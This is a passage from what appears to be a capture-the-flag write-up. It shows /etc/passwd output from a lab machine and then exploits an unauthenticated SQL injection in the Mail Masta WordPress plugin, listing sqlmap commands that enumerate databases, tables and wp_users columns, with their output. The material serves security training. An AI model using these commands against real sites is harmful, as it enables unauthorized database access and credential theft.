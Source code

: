 ```
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
elyana:x:1000:1000:Elyana:/home/elyana:/bin/bash
mysql:x:110:113:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
ftp:x:111:115:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
```
* Elyana user is only other user other than root with "/bin/bash" shell access.
* Could not access other log files such as "/var/log/apache2/access.log" (accessed requests for Apache web server).
#### Exploit Mail Masta SQLi.
* Page `./wp-content/plugins/mail-masta/inc/lists/csvexport.php` (Unauthenticated).
* GET parameter:`list_id`.

**Enumerate databases**
```
sqlmap -u "http://TARGET_IP/wordpress/wp-content/plugins/mail-masta/inc/lists/csvexport.php?list_id=0&pl=/var/www/html/wordpress/wp-load.php" --dbs
```
* `-u` specifies target URL.
* `--dbs` tells SQLMap to try to enumerate database.
```
available databases [2]:
[*] information_schema
[*] wordpress
```
**List tables within "wordpress" database**
```
sqlmap -u "http://TARGET_IP/wordpress/wp-content/plugins/mail-masta/inc/lists/csvexport.php?list_id=0&pl=/var/www/html/wordpress/wp-load.php" -D wordpress --tables

Database: wordpress
[23 tables]
+----------------------------+
| wp_commentmeta             |
| wp_comments                |
| wp_links                   |
| wp_masta_campaign          |
| wp_masta_cronapi           |
| wp_masta_list              |
| wp_masta_reports           |
| wp_masta_responder         |
| wp_masta_responder_reports |
| wp_masta_settings          |
| wp_masta_subscribers       |
| wp_masta_support           |
| wp_options                 |
| wp_postmeta                |
| wp_posts                   |
| wp_reflex_gallery          |
| wp_reflex_gallery_images   |
| wp_term_relationships      |
| wp_term_taxonomy           |
| wp_termmeta                |
| wp_terms                   |
| wp_usermeta                |
| wp_users                   |
+----------------------------+
```
**List columns within "wp_users" table**
```
sqlmap -u "http://TARGET_IP/wordpress/wp-content/plugins/mail-masta/inc/lists/csvexport.php?list_id=0&pl=/var/www/html/wordpress/wp-load.php" -D wordpress -D wordpress -T wp_users --columns
```